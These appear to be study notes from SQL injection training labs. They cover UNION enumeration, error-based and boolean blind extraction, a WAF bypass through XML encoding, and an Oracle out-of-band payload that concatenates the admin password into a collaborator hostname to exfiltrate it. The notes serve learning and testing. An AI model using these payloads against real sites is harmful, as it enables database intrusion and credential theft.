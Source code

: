 Encounter Cliff Notes

- Oracle UNION enumeration → creds
  - Found injectable category filter. Used `UNION SELECT` against `dual`, listed tables/columns, dumped `users` and logged in as admin.

- Visible error-based via cookie
  - `track` injection produced DB errors. Cast subqueries to `int` to control error/no error and leak data, then extracted admin creds.

- Blind OOB (Oracle XML)
  - Injected `EXTRACTVALUE(xmltype('<!DOCTYPE... SYSTEM "http://<collab>" >'),'/l')` to trigger DNS. Confirmed vuln.

- Blind OOB exfil
  - Concatenated password into the collaborator hostname in the XML to exfiltrate admin password.

- WAF filter bypass via XML encoding
  - SQLi in XML body on `store`. Used HTML entity encoding and string concat to get single-column union; concatenated user and pass with delimiter.

- UNION: find columns and text column
  - Counted columns with `UNION SELECT NULL,...` then found text-bearing column replacing `NULL` with `'a'`.

- Dump creds directly via UNION
  - `UNION SELECT username,password FROM users` where columns matched.

- Boolean blind (welcome banner / status)
  - Used true/false conditions to control page behavior. With Intruder, iterated character positions using `SUBSTR` and boolean checks to recover 20-char password.

- Oracle error-based blind
  - Used CASE WHEN with divide-by-zero to trigger error on true. Probed existence and leaked length and characters via conditional errors.



